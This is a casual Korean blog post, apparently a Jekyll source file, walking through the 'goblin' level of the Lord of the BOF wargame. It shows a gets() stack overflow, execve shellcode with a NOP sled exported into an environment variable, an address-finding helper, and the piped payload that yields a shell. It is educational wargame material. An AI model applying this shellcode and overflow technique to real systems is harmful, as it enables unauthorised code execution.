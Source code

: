```yaml
---
layout: post
title: "기초에 심하게 충실한 LOB일지 03[cobolt->goblin]"
date: 2018-08-15
author: conchi
categories: Wargame LOB
---
```


**콘-하! (콘치 하이라는 뜻임ㅋㅋ)**   
<br>

간만에 올리는 포스팅이군여 'ㅅ'/ 시작전에 별로 안 궁금한 근황을 소개하자면 저는 여전히.. 회사를 열심히 다니고있습니다. 네 열심히 회사도 다니고 열심히 놀고 열심히 먹고 공부빼고 다 열심히 하면서 살고있습니다. 한번살다가는 인생~~~ 수고링~~  
<br>

날도더운데 쉬엄쉬엄해보자구여 ㅋㅋ!  
<br>

- - -
이번문제는 `goblin` 이라는 이름을 가지고있는 작고 귀여운(마치 저처럼) 바이너리입니다. 이번편부터는 ㅠㅠ 이미지 편집이 귀찮은 관계로 텍스트로 긁어다가 조져볼겄습니다. 우선 코드부터 확인해봅시당.   
<br>

```
[cobolt@localhost cobolt]$ ls
goblin  goblin.c
[cobolt@localhost cobolt]$ cat goblin.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
[cobolt@localhost cobolt]$
```
어디보자.. 지난번`cobolt`코드랑 똑같은거 같은데 이번에는 값을 때려박는 부분의 모양이 조금 달라진것 같습니다. 여태 값을 `argv`로 받아왔던 반면 이번에는 `gets()` 함수를 통해 받아오네요. 어떻게 된건지 한번 `goblin`을 실행시켜서 확인해봅시다.   
<br>

 ![1](/assets/lob3/01.jpg)   
 ![1](/assets/lob3/02.jpg)  
 이런식으로 프로그램을 실행하고 나면 값을 입력할 수 있게 되어있네요. 어차피 buffer의 크기나 이런건 다 똑같으니까 이번 문제를 해결하기 위해서는 값을 때려넣어주는 파이썬 스크립트에 조금 신경을 써주면 쉽게 해결할 수 있을듯 합니다. 일단은 지난 문제와 동일하게 쉘코드를 환경변수에 쇽샥쇽 해서 넣어보도록 해염.
 <br>

 ```
 [cobolt@localhost cobolt]$ bash2
 [cobolt@localhost cobolt]$ export conchi_shell=`python -c 'print "\x90"*60+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
 [cobolt@localhost cobolt]$ cat conenv_add.c
 #include <stdio.h>
 int main()
 {
     printf("%x\n",getenv("conchi_shell"));
     return 0;
 }
 ```
 여기까지는 기존의 에그쉘 사용방법과 같습니다. 이제 값을 때려박아 봅시다.
 <br>

 ```
 [cobolt@localhost cobolt]$ (python -c 'print "A"*20 + "\x1d\xfc\xff\xbf"';cat) | ./goblin
 AAAAAAAAAAAAAAAAAAAA
 my-pass
 euid = 503
 flag
 ```
